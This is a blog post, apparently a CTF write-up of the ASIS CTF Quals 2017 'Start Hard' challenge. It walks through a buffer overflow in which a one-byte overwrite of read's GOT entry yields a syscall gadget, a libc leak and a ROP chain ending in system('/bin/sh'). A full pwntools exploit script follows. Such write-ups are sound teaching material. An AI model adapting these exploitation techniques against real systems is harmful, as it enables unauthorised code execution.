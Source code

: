 ```yaml
---
layout: post
title: Start Hard - ASIS CTF Quals 2017
date:   2017-04-10 07:58:21 +1100
categories: posts
---
```


> I doubt it's harder.
>
> ‍‍‍‍nc 128.199.152.175 10001

*201 Pts, 43 solved, Crypto. [start_hard_c8b452f5aab9a474dcfe1351ec077a601fdf8249][asset]*

---

This was great little challenge, all it did was read 0x400 bytes into a buffer and returned 0.

So we have a buffer overflow, NX and ASLR enable, and only only a single libc function *read*. It's ropping time!

First of all we need a way to get a leak to defeat ASLR. *write* in libc is located close enough to *read* that we could overwrite just the last byte of the GOT entry and turn it into a call to *write*. This would allow us to leak anything, but afterward we would have to way to call *read* again to do anything useful.

Another option is to overwrite *read* to point to a *syscall*, that would give us greater control over what we could do:
{% highlight python %}
Dump of assembler code for function read:
   0x00007ffff7b04670 <+0>:	cmp    DWORD PTR [rip+0x2d20c9],0x0        # 0x7ffff7dd6740 <__libc_multiple_threads>
   0x00007ffff7b04677 <+7>:	jne    0x7ffff7b04689 <read+25>
   0x00007ffff7b04679 <+0>:	mov    eax,0x0
   0x00007ffff7b0467e <+5>:	syscall{% endhighlight %}

Overwriting one byte also has the nice side effect of setting *rax* to 1 which is what we need for a write syscall.

Now we have a leak and can get the libc base address, then we need to get *rax* to 0 to perform another *read*.

As the main function in binary returns 0, we can use that:

{% highlight python %}
   0x000000000040054b:	mov    eax,0x0
   0x0000000000400550:	leave
   0x0000000000400551:	ret{% endhighlight %}

The only downside is that it will do a *leave*, so the stack will be pivoted to whatever we overflowed the saved *rbp* to be. That's no problem, we just need to set *rbp* to point to some fixed writeable location and make sure we have setup our *rop* there. We can use somewhere in the *bss* and set it up before we overwrite the *read* got.

So we setup the rop in bss to call *read* and overwrite the new stack with *system*, and set *rdi* to */bin/sh* and we have a shell.

---
Here is the final exploit:

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

write_offset =  0xf667e
bss =  0x601038 + 0x400
read_got = 0x601018

pop_rdi = p64(0x00000000004005c3) # pop rdi; ret;
pop2_rsi = p64(0x00000000004005c1) #: pop rsi; pop r15; ret;
eax_0 = p64(0x000000000040054b) # mov eax, 0; leave; ret;

read = p64(0x400400)
syscall = read


def rop1():
  rop = ""

  # read in stage2 rop
  rop += pop2_rsi + p64(bss) + p64(0)
  rop += read

  # overwrite 1 byte of read_got
  rop += pop2_rsi + p64(read_got) + p64(0)
  rop += read

  # read_got is now a syscall
  # rax == 1 from 1 byte read
  # write(1, read_got, 0x400)
  rop += pop_rdi + p64(1)
  rop += syscall

  # set rax to 0 to read syscall
  rop += eax_0

  return rop

def rop2():
  rop = ""
  rop += p64(bss) #rbp

  rop += pop_rdi + p64(0)
  rop += pop2_rsi + p64(bss+0x48) + p64(0)
  rop += read

  # setup "/bin/sh" arg to system
  rop += pop_rdi + p64(bss+0x48+16)

  return rop

def exploit():

  stage1_rop = rop1()
  p.sendline("A"*16 + p64(bss) + stage1_rop)
  log.info("First rop sent")
  pause()

  stage2_rop = rop2()
  p.send(stage2_rop)
  log.info("Second rop sent")
  pause()

  # one byte override of read_got to make it a syscall
  p.send("\x7e")
  log.info("Read GOT overwritten")

  leak1 = u64(p.recvn(8))
  leak2 = u64(p.recvn(8))

  libc.address = leak1 - write_offset

  log.info("write 0x%x"%leak1)
  log.info("start 0x%x"%leak2)
  log.info("libc 0x%x"%libc.address)

  # write system and setup /bin/sh in bss
  p.send(p64(libc.symbols["system"]) + p64(0) + "/bin/sh\x00")
  p.interactive()


if __name__ == "__main__":
  name = "./start_hard"
  binary = ELF(name)

  libc_name = "/lib/x86_64-linux-gnu/libc-2.23.so"
  libc = ELF(libc_name)

  context.arch = "amd64"

  if len(sys.argv) > 1:
    p = remote("128.199.152.175", 10001)
  else:
    p = process(name, env={})

  exploit()
{% endhighlight %}

[asset]: {{ site.url }}/assets/start_hard_c8b452f5aab9a474dcfe1351ec077a601fdf8249.zip
